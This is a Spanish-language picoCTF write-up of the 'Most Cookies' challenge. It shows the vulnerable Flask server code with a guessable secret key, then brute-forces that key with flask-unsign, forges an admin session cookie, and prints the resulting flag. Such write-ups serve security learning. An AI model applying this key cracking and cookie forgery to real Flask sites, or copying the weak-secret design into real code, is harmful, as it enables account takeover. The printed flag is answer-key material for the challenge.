 ```yaml
---
title: Most Cookies
date: 2025-07-23 11:00:00 +0200
categories: [writeup, picoctf]
tags: [picoctf, explotación web]     
image:
    path: https://picoctf.org/img/logos/pico-mark.svg
    alt: PicoCTF
---
```

>Most Cookies
Author: madStacks
Description
Alright, enough of using my own encryption. Flask session cookies should be plenty secure! server.py http://mercury.picoctf.net:65344/
{: .prompt-tip }

Nos ofrece descargar server.py, haciendo un primer análisis
``` python 
from flask import Flask, render_template, request, url_for, redirect, make_response, flash, session
import random
app = Flask(__name__)
flag_value = open("./flag").read().rstrip()
title = "Most Cookies"
cookie_names = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]
app.secret_key = random.choice(cookie_names)

@app.route("/")
def main():
	if session.get("very_auth"):
		check = session["very_auth"]
		if check == "blank":
			return render_template("index.html", title=title)
		else:
			return make_response(redirect("/display"))
	else:
		resp = make_response(redirect("/"))
		session["very_auth"] = "blank"
		return resp

@app.route("/search", methods=["GET", "POST"])
def search():
	if "name" in request.form and request.form["name"] in cookie_names:
		resp = make_response(redirect("/display"))
		session["very_auth"] = request.form["name"]
		return resp
	else:
		message = "That doesn't appear to be a valid cookie."
		category = "danger"
		flash(message, category)
		resp = make_response(redirect("/"))
		session["very_auth"] = "blank"
		return resp

@app.route("/reset")
def reset():
	resp = make_response(redirect("/"))
	session.pop("very_auth", None)
	return resp

@app.route("/display", methods=["GET"])
def flag():
	if session.get("very_auth"):
		check = session["very_auth"]
		if check == "admin":
			resp = make_response(render_template("flag.html", value=flag_value, title=title))
			return resp
		flash("That is a cookie! Not very special though...", "success")
		return render_template("not-flag.html", title=title, cookie_name=session["very_auth"])
	else:
		resp = make_response(redirect("/"))
		session["very_auth"] = "blank"
		return resp

if __name__ == "__main__":
	app.run()
```
En el navegador aparece esta cookie de sesión. Procedo con su análisis

>session=eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.aIDITg.D5BnzBwxyZNqDjS6aHvFs8TnHmM
``` shell
pablo☠office Most-Cookies$ echo "eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.aIDITg.D5BnzBwxyZNqDjS6aHvFs8TnHmM" | base64 -d
{"very_auth":"blank"}base64: entrada inválida
```

Para hacer fuerza bruta contra estas claves de flask me valgo de este proyecto [https://github.com/Paradoxis/Flask-Unsign](https://github.com/Paradoxis/Flask-Unsign), así que procedo a descargarlo e instalarlo con pip

``` shell
mkdir ~/pentest/flask-unsign
cd ~/pentest/flask-unsign
python -m venv .
source bin/activate
pip install flask-unsign
```

Ahora que lo tenemos instalado podemos comenzar con la fuerza bruta contra la cookie

``` shell
(flask-unsign) pablo☠office flask-unsign$ flask-unsign -u --cookie "eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.aIDITg.D5BnzBwxyZNqDjS6aHvFs8TnHmM" -w ~/pentest/wordlist/rockyou.txt --no-literal-eval
[*] Session decodes to: {'very_auth': 'blank'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 6630912 attempts
b'fortune'
```
Ok la clave parece "fortune" y ahora que tenemos la clave si analizamos el código del servidor podemos deducir para ver la clave necesitamos ser admin y por lo tanto **'very_auth': 'admin'** debe ser el payload de la cookie, claro que habrá q firmarlo previamente para que el servidor lo acepte.

``` shell
(flask-unsign) pablo☠office flask-unsign$ flask-unsign --sign --cookie "{'very_auth': 'admin'}" --secret 'fortune'
eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.aIDZtg.cMcK_FzsfI2_xdHK1gcVbZQg2mU
```

Capturo el request con Zap proxy y altero la cookie 
``` html
GET http://mercury.picoctf.net:65344/display HTTP/1.1
host: mercury.picoctf.net:65344
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Connection: keep-alive
Cookie: session=eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.aIDZtg.cMcK_FzsfI2_xdHK1gcVbZQg2mU
Upgrade-Insecure-Requests: 1
Priority: u=0, i
content-length: 0
```
Respuesta
``` html
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 1194
Vary: Cookie

<!DOCTYPE html>
<html lang="en">

<head>
    <title>Most Cookies</title>


    <link href="https://maxcdn.bootstrapcdn.com/bootstrap/3.2.0/css/bootstrap.min.css" rel="stylesheet">

    <link href="https://getbootstrap.com/docs/3.3/examples/jumbotron-narrow/jumbotron-narrow.css" rel="stylesheet">

    <script src="https://ajax.googleapis.com/ajax/libs/jquery/3.3.1/jquery.min.js"></script>

    <script src="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.7/js/bootstrap.min.js"></script>

</head>

<body>

    <div class="container">
        <div class="header">
            <nav>
                <ul class="nav nav-pills pull-right">
                    <li role="presentation"><a href="/reset" class="btn btn-link pull-right">Reset</a>
                    </li>
                </ul>
            </nav>
            <h3 class="text-muted">Most Cookies</h3>
        </div>

        <div class="jumbotron">
            <p class="lead"></p>
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{pwn_4ll_th3_cook1E5_25bdb6f6}</code></p>
        </div>


        <footer class="footer">
            <p>&copy; PicoCTF</p>
        </footer>

    </div>
</body>

</html>
```
flag: **picoCTF{pwn_4ll_th3_cook1E5_25bdb6f6}**

Interesante reto muy parecido a [Java Code Analysis!?!](picoctf-java-code-analisis!-!) pero esta vez versión Flask. 